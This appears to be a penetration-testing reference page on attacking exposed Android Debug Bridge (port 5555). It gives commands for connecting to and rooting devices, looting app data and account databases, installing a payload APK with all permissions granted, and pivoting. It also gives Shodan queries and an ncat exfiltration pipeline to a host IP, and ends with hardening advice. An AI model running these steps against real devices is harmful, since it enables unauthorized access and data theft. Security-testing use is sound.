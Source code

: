 # 5555 - Android Debug Bridge


## Basic Information

From [[https://developer.android.com/studio/command-line/adb|the docs]]:

Android Debug Bridge (adb) is a command-line tool to communicate with Android-based devices and emulators. Typical actions include installing packages, debugging, and getting an interactive Unix shell on the device.

- Historical default TCP port: 5555 (classic "adb tcpip" mode).
- Modern Wireless debugging (Android 11+) uses TLS pairing and mDNS service discovery. The connect port is dynamic and discovered via mDNS; it may not be 5555. Pairing is done with adb pair host:port followed by adb connect. See the notes below for offensive implications.

Example nmap fingerprint:

```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
```
## Connect

If you find ADB exposed and reachable, try connecting and enumerating quickly:

```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
```
- If the device enforces ADB authentication (ro.adb.secure=1), you’ll need to be pre-authorized (USB RSA auth) or use Android 11+ Wireless debugging pairing (which requires a one-time code displayed on the device).
- Some vendor images, engineering/userdebug builds, emulators, TVs, STBs and development kits expose adbd without auth or with adbd running as root. In those cases, you’ll typically land directly in a shell or root shell.

For a general ADB command reference, see:

[[../mobile-pentesting/android-app-pentesting/adb-commands.md]]

## Quick Post-Exploitation

Once you have shell, validate privileges and SELinux context:

```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
```
### Enumerate and capture data

- List third-party apps and paths:
  ```bash
  pm list packages -3
  pm path <pkg>
  ```
- If you have root (adb root or su works), you can access /data directly. If not, prefer run-as for debuggable apps:
  ```bash
  # Without root, for a debuggable app
  run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>
  
  # With root
  cp -a /data/data/<pkg> /sdcard/<pkg>
  exit
  adb pull "/sdcard/<pkg>"
  ```
- Useful system artifacts (root required):
  - /data/system/users/0/accounts.db and related AccountManager data
  - /data/misc/wifi/ (network configs/keys on older versions)
  - App-specific SQLite DBs and shared_prefs under /data/data/<pkg>

You can use this to retrieve sensitive info (e.g., app secrets). For notes about Chrome data considerations, see the issue referenced [[https://github.com/carlospolop/hacktricks/issues/274|here]].

### Code execution and payload delivery

- Install and auto-grant runtime permissions:
  ```bash
  adb install -r -g payload.apk         # -g grants all runtime perms declared in manifest
  adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
  ```
- Start activities/services/broadcasts directly:
  ```bash
  adb shell am start -n <pkg>/<activity>
  adb shell am startservice -n <pkg>/<service>
  adb shell am broadcast -a <action>
  ```

### Port forwarding and pivoting

Even without root, adb can forward local ports to device ports and vice versa. This is useful to access services bound locally on the device or to expose attacker services to the device.

- Forward host->device (access a device-local service from your host):
  ```bash
  adb forward tcp:2222 tcp:22       # If device runs SSH (e.g., Termux/Dropbear)
  adb forward tcp:8081 tcp:8080     # Expose app’s local debug server
  ```
- Reverse device->host (let the device reach a service on your host):
  ```bash
  adb reverse tcp:1080 tcp:1080     # Device apps can now reach host:1080 as 127.0.0.1:1080
  ```
- File exfiltration over sockets (no sdcard writes):
  ```bash
  # On host: listen
  ncat -lvp 9000 > dump.tar
  # On device: send directory as tar (root or run-as as applicable)
  adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
  ```

## Wireless Debugging (Android 11+)

Modern Android implements TLS-protected wireless debugging with device-side pairing and mDNS discovery:

```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
```
Notes
- Ports are dynamic; don’t assume 5555. mDNS service names look like:
  - _adb-tls-pairing._tcp (pairing)
  - _adb-tls-connect._tcp (paired connect)
  - _adb._tcp (legacy/plain)
- If mDNS is filtered, classic USB-assisted enabling may still work on some builds: `adb tcpip 5555` then `adb connect <ip>:5555` (until reboot).

Offensive implications: if you can interact with the device UI (e.g., physical access or mobile MDM misconfig) to enable Wireless debugging and view the pairing code, you can establish a long-lived paired ADB channel without a cable. Some OEMs expose ADB over TCP in engineering/dev images without pairing—always check.

## Hardening / Detection

Defenders should assume any reachable adbd (TCP) is critical risk.

- Disable ADB and Wireless debugging when not needed. Revoke USB debugging authorizations in Developer options.
- Ensure network policy blocks inbound TCP/5555 and mDNS-based ADB discovery on untrusted segments.
- On devices under your control:
  ```bash
  settings put global adb_enabled 0
  setprop service.adb.tcp.port -1   # disable TCP listening (or use: adb usb)
  stop adbd; start adbd             # restart daemon
  ```
- Monitor for mDNS records `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` on corporate networks and alerts for unexpected 5555 listeners.
- Inventory for insecure builds: `getprop ro.debuggable`, `ro.build.type`, and `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"


## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md

